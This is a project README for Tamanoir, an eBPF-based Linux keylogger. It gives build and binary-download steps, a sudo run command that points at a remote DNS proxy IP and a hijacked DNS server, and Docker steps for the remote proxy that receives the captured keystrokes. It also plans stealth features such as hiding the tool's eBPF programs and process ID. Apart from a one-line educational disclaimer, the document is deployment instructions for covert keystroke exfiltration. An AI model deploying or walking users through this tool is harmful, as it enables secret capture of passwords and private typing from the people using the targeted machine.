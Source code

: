<div align="center">
  <img src="https://github.com/user-attachments/assets/47b8a0ef-6a52-4e2d-8188-e77bb9e98d79" style="width: 40%; height: 40%"</img>
  <h2> Tamanoir </h2>
  <h2> A KeyLogger using eBPF </h2>
</div>

## 💡Overview

<div align="center">
  <img src="https://github.com/user-attachments/assets/24f80020-9d60-4f2a-825b-ed56574dfb24" </img>
</div>

<br>

## Setup

### Tamanoir

#### 📜 Prerequisites

A Linux based OS.

#### 🚀 Installation

##### Build from source

To build from source, make sure you have:

- [bpf-linker](https://github.com/aya-rs/bpf-linker) installed.
- [Rust](https://www.rust-lang.org/tools/install) installed with `nightly` toolchain.

1. Build ebpf program

```
cd tamanoir-ebpf
cargo build --release
```

2. Build user space program

```
cargo build --release
```

This will produce an executable file at `target/release/tamanoir` that you can copy to a directory in your `$PATH`

##### 📥 Binary release

You can download the pre-built binaries from the [release page](https://github.com/pythops/tamanoir/releases)

#### 🪄 Usage

2. Run

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip <DNS proxy IP> \
              --hijack_ip <locally configured DNS server IP> \
              --layout <keyboard layout>
```

for example:

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip 192.168.1.75 \
              --hijack_ip 8.8.8.8 \
              --layout 0
```

Currenly, there are two supported keyboard layouts:

`0` : qwerty (us)

`1` : azerty (fr)

### DNS Proxy

On a remote host, make sure you have:

- [docker](https://docs.docker.com/engine/install/) installed.

1. Build proxy image

```
cd proxy
docker build -t proxy .
```

2. Run proxy

> [!NOTE]
> Make sure port 53 is available

```
docker run --rm -it -p 53:53/udp -e PAYLOAD_LEN=8 proxy
```

<br>

## 🛠️TODO

- [ ] Automatic discovery of the configured local dns server
- [ ] Automatic discovery of the keyboard layout
- [ ] Rewrite the DNS proxy in Rust
- [ ] Make `Tamanoir` stealth (hide used ebpf maps and programs, process pid ...)

<br>

## ⚠️ Disclaimer

`Tamanoir` is developed for educational purposes only

<br>

## ✍️ Authors

[Badr Badri](https://github.com/pythops)

[Adrien Gaultier](https://github.com/adgaultier)

<br>

## ⚖️ License

GPLv3
